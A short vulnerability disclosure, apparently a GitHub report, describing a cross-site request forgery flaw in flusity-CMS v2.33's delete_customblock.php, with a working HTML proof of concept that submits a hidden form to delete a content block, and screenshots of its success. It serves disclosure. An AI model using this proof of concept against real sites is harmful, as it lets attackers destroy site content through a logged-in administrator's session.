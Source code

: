 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/delete_customblock.php

![1](https://github.com/MSfAdminUser/cms/assets/157438577/11890344-27c4-4712-b7c1-453eb49848b4)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/delete_customblock.php" method="POST">
      <input type="hidden" name="action" value="delete&#95;customblock" />
      <input type="hidden" name="customblock&#95;id" value="39" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```

![2](https://github.com/MSfAdminUser/cms/assets/157438577/fb4099c3-23f6-419e-af43-cf439fc0d8de)


Successed

![3](https://github.com/MSfAdminUser/cms/assets/157438577/b88100c6-9235-46db-95b3-a0b98b9d2e06)
